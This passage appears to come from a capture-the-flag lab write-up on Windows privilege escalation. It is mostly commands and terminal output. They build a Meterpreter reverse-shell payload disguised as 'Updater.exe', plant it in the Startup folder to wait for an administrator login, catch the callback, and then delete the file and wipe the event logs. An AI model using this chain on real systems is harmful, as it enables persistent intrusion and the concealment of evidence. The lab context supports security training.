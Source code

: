 ### 2.2 - Exploit

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.8.145.108 lport=53 -f exe -o Updater.exe

meterpreter > upload Updater.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
[*] uploading  : /home/user/Documents/thm/winprivesc/Updater.exe -> C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
[*] uploaded   : /home/user/Documents/thm/winprivesc/Updater.exe -> C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\Updater.exe
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/script/web_delivery) > handler -p windows/x64/meterpreter/reverse_tcp -H 10.8.145.108 -P 53 -x
[*] Payload handler running as background job 2.

[*] Started reverse TCP handler on 10.8.145.108:53
```

Now we wait for the administrator user to login and wait for a callback connection.

```
$ xfreerdp /u:<username> /p:<password> /cert:ignore /v:<IP>

$ rdesktop -u <username> -p <password> <IP>

msf6 exploit(multi/script/web_delivery) >
[*] Sending stage (200774 bytes) to 10.10.22.1
[*] Meterpreter session 3 opened (10.8.145.108:53 -> 10.10.22.1:49237) at 2022-05-28 09:24:52 -0400

msf6 exploit(multi/script/web_delivery) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid
Server username: TCM-PC\TCM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

### 2.3 - Cleanup

```
meterpreter > execute -f notepad
Process 4008 created.
meterpreter > migrate -N notepad.exe
[*] Migrating from 3352 to 4008...
[*] Migration completed successfully.
meterpreter > rm "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\Updater.exe"
meterpreter > clearev
[*] Wiping 6 records from Application...
[-] stdapi_sys_eventlog_clear: Operation failed: Access is denied.
```
